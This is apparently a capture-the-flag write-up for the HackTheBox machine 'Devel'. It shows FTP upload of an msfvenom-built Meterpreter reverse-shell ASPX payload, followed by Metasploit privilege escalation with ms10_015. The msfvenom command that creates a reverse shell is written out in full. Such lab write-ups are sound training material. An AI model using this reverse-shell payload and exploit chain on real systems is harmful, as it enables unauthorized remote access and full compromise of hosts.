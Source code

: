 ```yaml
---
title: HackTheBox Devel
date: 2020-12-07
categories: [HackTheBox]
thumbnail: /assets/img/htb/devel/info.png
excerpt: This is an easy level box. We have anonymous access through FTP through which we can upload a shell. Then we use ms10_015 exploit to gain root.
tags: [FTP,samba,smb,ms10_015]
---
```


## Enumeration

### NMAP

`nmap` shows that we have 2 ports open, FTP and HTTP:

![nmap](/assets/img/htb/devel/nmap.png)

### FTP

First, I created a test file to test if we can use the `put` command.

![ftptest](/assets/img/htb/devel/ftptest.png)

Looks like we can.

Before we continue, let's take a look at the site.

### Website

![website](/assets/img/htb/devel/website.png)

Looking at wappalyzer:

![wappalyzer](/assets/img/htb/devel/wappalyzer.png)

We can see it's running `ASP.NET`, which means when we upload our shell, we will have to use a `aspx` file.

We'll make our payload with `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -f aspx > reverse.aspx
```

We will use `put` to upload our payload onto the ftp server:

`put reverse.aspx`

![put](/assets/img/htb/devel/put.png)

Next we will set up our metasploit to receive the connection. Then just navigate to your shell that you uploaded.

![meterpreter](/assets/img/htb/devel/meterpreter.png)

As you can see we got the connection back and got a shell.

### PrivEsc

We can try `local_exploit_suggester` module from metasploit. We will have to background our session with `CTRL+Z` and type `use post/multi/recon/local_exploit_suggester`, then we will set our session with `set session $session`.

![suggester](/assets/img/htb/devel/suggester.png)

We will try the infamous `ms10_015` exploit. The one thing to note is you have to check to see if all your options are set correctly, you may have to change your LHOST again and the port to a different one.

![exploit](/assets/img/htb/devel/exploit.png)

ROOT!

![root](/assets/img/htb/devel/root.png)













